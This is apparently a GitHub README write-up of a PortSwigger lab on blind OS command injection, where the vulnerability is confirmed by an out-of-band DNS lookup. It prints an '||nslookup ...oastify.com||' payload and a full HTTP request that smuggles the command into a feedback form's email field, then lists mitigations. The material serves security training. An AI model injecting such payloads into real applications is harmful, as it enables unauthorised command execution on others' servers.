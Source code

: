 
# 💻 Blind OS Command Injection – Out-of-Band (OOB) Interaction

> 🧠 **Level**: Practitioner  
> 🌐 **Platform**: PortSwigger Web Security Academy  
> 👩‍💻 **Author**: Kaouthar Belkebir  
> 📆 **Challenge Day**: XX — Pentest Challenge  

---

## 🧩 Lab Description

This lab is vulnerable to **blind OS command injection**.  
It does not return output directly, but we can confirm code execution by triggering an **external interaction** (DNS request) through an attacker-controlled domain.

🎯 **Objective**:  
Exploit the feedback form to trigger a **DNS lookup** using `nslookup`, confirming that arbitrary commands are being executed server-side.

---

## 🧪 Exploitation Strategy

We inject a payload in the `email` field using the `||` operator and the `nslookup` command. This forces the server to resolve a domain we control.

### ✅ Confirming Execution:
When the injected command is executed, the server sends a DNS query to our listener (via [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [OASTify](https://oastify.com)) — proving the injection worked.

---

## 🧠 Payload Used

```bash
||nslookup knboz2zho2fiavi6ozvjdr4phgn7byzn.oastify.com||
````

📝 This payload was injected in the `email` field of the feedback form.

---

## 📥 Full HTTP Request

```http
POST /feedback/submit HTTP/2
Host: 0a62007104e6f079838356e400f500f3.web-security-academy.net
Cookie: session=fXswci9zJWC3YE5TIZxpcWdVN6hu4T9J
Content-Type: application/x-www-form-urlencoded

csrf=bEZxAEYy843gXvC0zSwroABQUmqUKmNU&
name=helio&
email=hack@gamil.com||nslookup knboz2zho2fiavi6ozvjdr4phgn7byzn.oastify.com||&
subject=hackeme&
message=hackinggg-dns
```

---

## 🧬 Why This Works

The server concatenates the `email` input into a shell command. Since the input is not sanitized, the `||` operator allows us to **chain and execute arbitrary commands**.

`nslookup` sends a DNS request to our controlled domain, which we can observe.

---

## 📸 Screenshot (Proof of Concept)

![OOB Interaction Confirmed](https://github.com/Kabilala/OS-command-injection/blob/main/lab4/lab4.png

📍 The screenshot shows the DNS request received by `portswigguer`, confirming execution.

---

## 🛡️ Mitigation Techniques

* ✅ Avoid shell invocation with unsanitized user input
* ✅ Use safe APIs (`execFile`, parameterized commands)
* ✅ Implement strict input validation and allow-lists
* ✅ Monitor for unusual outbound traffic (like OOB DNS queries)

---

## 🔚 Conclusion

This lab demonstrates how **blind OS command injection** can still be detected and exploited using **out-of-band interactions**.
OOB payloads are crucial when there’s **no direct feedback** from the application.

---

### 📂 Repo Structure

```
.
├── README.md
├── images/
│   └── lab4-oob-confirmed.png
```


```
